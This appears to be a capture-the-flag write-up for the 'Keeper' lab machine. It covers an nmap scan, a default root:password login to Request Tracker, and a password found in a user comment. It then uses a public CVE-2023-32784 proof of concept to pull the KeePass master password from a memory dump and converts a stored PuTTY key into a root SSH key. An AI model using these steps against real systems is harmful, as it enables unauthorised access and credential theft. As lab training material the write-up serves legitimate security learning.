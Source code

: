 # Keeper

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.207.151          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-13 22:12 +08
Warning: 10.129.207.151 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.207.151
Host is up (0.16s latency).
Not shown: 65393 closed tcp ports (conn-refused), 140 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We can start proxying traffic through Burpsuite.

### Web Enumeration --> SSH Creds

Visiting the website itself shows a domain we need to add:

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

After adding to the `/etc/hosts` file, it brings us to a login page:

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

The website was running Best Practical Request Tracker (RT) 4.4.4, which is quite outdated. A bit of research reveals that `root:password` is the default password, which works here:

<figure><img src="../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

There is 1 ticket present, and it's an issue regarding Keepass (with the box name being an obvious hint).&#x20;

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

The attachment has been removed. There's also mention of another user named `lnorgaard`. When we use the Admin panel to view all Users, there's a password located within the user's comments:

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Using these creds, we can `ssh` in as the user:

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Keepass Dump --> CVE-2023-32784

Within the user's directory, there's one `zip` file present:

```
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
```

Within it is the `.dmp` file for the Keepass client mentioned in the ticket earlier. I searched for Keepass exploits for 2023, and found this one:

{% embed url="https://sysdig.com/blog/keepass-cve-2023-32784-detection/" %}

This exploits allows us to get passwords from Keepass dump files, and there is one PoC for it:

{% embed url="https://github.com/vdohney/keepass-password-dumper" %}

We can clone the repository and clean it up a bit. Afterwards, use `scp` to transfer the file out:

```
scp lnorgaard@keeper.htb:~/KeePassDumpFull.dmp .
```

Then, in order to run the binary, I had to change the dependencies from `net7.0` to `net6.0` within the `.csproj` file:

```markup
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

</Project>
```

Afterwards, we can use `dotnet run` to execute the program:

```
$ dotnet run KeePassDumpFull.dmp
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ,, l, `, -, ', ], A, I, :, =, _, c, M, 
3.:     d, 
4.:     g, 
5.:     r, 
6.:     ●
7.:     d, 
8.:      , 
9.:     m, 
10.:    e, 
11.:    d, 
12.:     , 
13.:    f, 
14.:    l, 
15.:    ●
16.:    d, 
17.:    e, 
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}<REDACTEDSTRING>
```

This would produce a string at the end with some non-printable characters. Googling part of the string reveals a certain Danish dessert (based on the username of the user):

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Using the name of the dessert, we can access the passwords within the `.kdbx` file:

```
$ kpcli --kdb=passcodes.kdbx 
Provide the master password: *************************

KeePass CLI (kpcli) v3.8.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
passcodes/
```

### Keepass PPX Key --> Root SSH Key

There are quite a few entries within this Keepass instance:

```
kpcli:/passcodes> ls *
/passcodes/eMail:

/passcodes/General:

/passcodes/Homebanking:

/passcodes/Internet:

/passcodes/Network:
=== Entries ===
0. keeper.htb (Ticketing Server)                                          
1. Ticketing System                                                       

/passcodes/Recycle Bin:
=== Entries ===
2. Sample Entry                                               keepass.info
3. Sample Entry #2                          keepass.info/help/kb/testform.

/passcodes/Windows:
```

Within the `keeper.htb` entry, there's a key of some sorts, as well as a fake password for `root`:

```
kpcli:/passcodes/Network> show -f 0

Title: keeper.htb (Ticketing Server)
Uname: root
 Pass: <TRUNCATED>
  URL: 
Notes: PuTTY-User-Key-File-3: ssh-rsa
       Encryption: none
       Comment: rsa-key-20230519
       Public-Lines: 6
       AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
       <TRUNCATED>
```

This is a Putty User Key File, which can be converted back to an `ssh` key.&#x20;

{% embed url="https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux" %}

```
$ puttygen key.ppk -O private-openssh -o sshkey.rsa
$ cat sshkey.rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
<TRUNCATED>
```

After running `chmod 600` on it, we can use this private key to `ssh` in as `root`:

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

`dotnet run` saves loads of time transferring files to a Windows machine. Rooted!&#x20;
